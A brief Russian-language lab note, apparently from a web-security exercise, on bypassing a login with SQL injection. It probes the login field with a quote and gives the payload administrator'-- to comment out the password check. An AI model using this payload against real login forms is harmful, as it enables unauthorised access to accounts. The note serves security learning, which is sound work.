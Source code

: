 SQL injection

Цель: Войти в аккаунт администратора

Вставим ' в login, если страница сломается и вернет server error то он уязвим для SQLi


SELECT Firstname FROM users WHERE username = 'administrator' and password = 'administrator' 

SELECT Firstname FROM users WHERE username = ''' and password = 'administrator'

SELECT Firstname FROM users WHERE username = 'administrator'--' and password = 'administrator'

administrator'--     <--- Это наша полезная нагрузка
